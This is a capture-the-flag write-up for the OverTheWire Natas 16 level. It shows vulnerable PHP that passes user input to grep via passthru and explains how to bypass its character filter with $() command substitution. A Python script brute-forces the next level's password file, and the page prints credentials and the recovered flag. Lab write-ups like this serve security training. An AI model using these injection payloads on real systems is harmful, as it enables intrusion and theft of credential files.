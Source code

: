 This is a more secure version of `natas9`. 

```php
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
	$key = $_REQUEST["needle"];
}

if($key != "") {
	if(preg_match('/[;|&`\'"]/',$key)) {
		print "Input contains an illegal character!";
	} else {
		passthru("grep -i \"$key\" dictionary.txt");
	}
}
?>
```

It filters for specific characters, preventing us from doing the same thing as `natas9`. When this program runs the `passthru` command, the key is enclosed in quotes, making it a string. So regularly, we can't execute strings. But if we use `$()`, we could actually execute it. We can test this hypothesis by typing this text into the input:

```sh
$(echo Asians)
```

This gave us "*Asians*". So we can execute commands from this. However, we can just do `$(cat /etc/natas_webpass/natas17)` because the output of this command will be fed into the outer grep command, which will give us nothing. So we need to brute force this just like the previous level.

Since the output of the inner command will be fed into the outer grep command, we could try grepping each characters to derive the password. We can combine the output of the inner grep command with a word that we know is in `dictionary.txt` like "*Asians*" for example. If we don't find the correct character, then the output of the inner command will be empty, which won't affect the outer command's grepping for "*Asians*" and it would still output "Asians". But if we do find the correct character, then the output of the inner command will be combined with "*Asians*", making it so that we the outer grep command will be grepping for "*inner_command_output + Asians*" instead of just "*Asians*". So all we need to do is try to derive each of the 32 characters. We could do this using a similar script to `natas15` (since it didn't specify any *POST* request when uploading the input into the script, we'll use *GET* requests):

```python
import requests
import string

url = 'http://natas16.natas.labs.overthewire.org'
username = 'natas16'
password = 'hPkjKYviLQctEW33QmuXL6eDVfMW4sGo'

characters = string.ascii_letters + string.digits
flag = ''

for i in range(32):
    for char in characters:
        command = '$(grep -E ^%s%c.* /etc/natas_webpass/natas17)Asians' % (flag, char)
        response = requests.get(url, auth=(username, password), params={"needle" : command})
        
        if "Asians" not in response.text:
            flag += char
            print(f'Building flag: {flag}')
            break

print(f'Complete flag: {flag}')
```

The regex (used with `-E` for extended regex):
- `^` means assert position at the start of the line
- `%s%c` are placeholder, helps us combine both the flag being built and testing the next correct character.
- `.` matches any character (except for line terminators)
- `*` matches the previous token for unlimited amount of times.

Here's the output:
```
Complete flag: EqjHJbo7LFNb8vwhHb9s75hokh5TF0OC
```